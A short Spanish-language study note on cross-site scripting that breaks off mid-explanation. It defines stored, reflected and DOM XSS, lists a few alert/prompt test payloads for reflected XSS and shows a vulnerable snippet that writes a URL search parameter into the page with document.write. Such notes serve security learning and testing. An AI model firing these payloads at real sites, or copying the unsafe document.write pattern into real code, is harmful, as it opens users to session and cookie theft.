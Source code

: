 # Cross Site Scripting
Un XSS (Cross-Site Scripting) es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante inyectar código malicioso, como JavaScript, en páginas vistas por otros usuarios. Este código puede ejecutarse en el navegador de las víctimas, comprometiendo la integridad de la sesión, robando cookies de autenticación o redirigiendo a sitios web maliciosos. Existen tres tipos de XSS: almacenado, reflejado y basado en DOM.

## Reflected XSS into HTML 
Siempre probar payloads de xss en aplicaciones donde el ususario pueda introducir cadenas de texto (cuadros de busqueda, correos, parametros, etc.)
```js
<script> alert('pwned');  </script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<img/src/onerror=prompt(8)>
```
Puedes encontrar mas payloads aqui -> https://github.com/payloadbox/xss-payload-list


## DOM XSS
En una pagina web donde se pueden hacer busqueda de imagenes el input es tratado de la siguiente forma:
```html
<script>
  function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
  }
  var query = (new URLSearchParams(window.location.search)).get('search');
  if(query) {
    trackSearch(query);
  }
</script>
```
Podemos observar que la busqueda es directamente pasada a la etiqueta <img> por lo que podemos crear un xss de la siguiente forma:
